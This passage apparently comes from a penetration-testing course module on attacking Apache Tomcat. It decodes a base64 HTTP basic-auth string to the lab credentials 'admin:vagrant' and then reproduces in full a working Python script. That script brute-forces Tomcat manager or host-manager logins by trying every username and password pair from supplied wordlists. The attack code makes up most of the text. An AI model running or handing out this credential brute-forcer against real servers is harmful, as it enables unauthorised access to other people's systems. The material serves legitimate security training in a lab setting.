Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ echo YWRtaW46dmFncmFudA== |base64 -d

admin:vagrant
```

We can also use [this](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) Python script to achieve the same result.

Code: python

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```
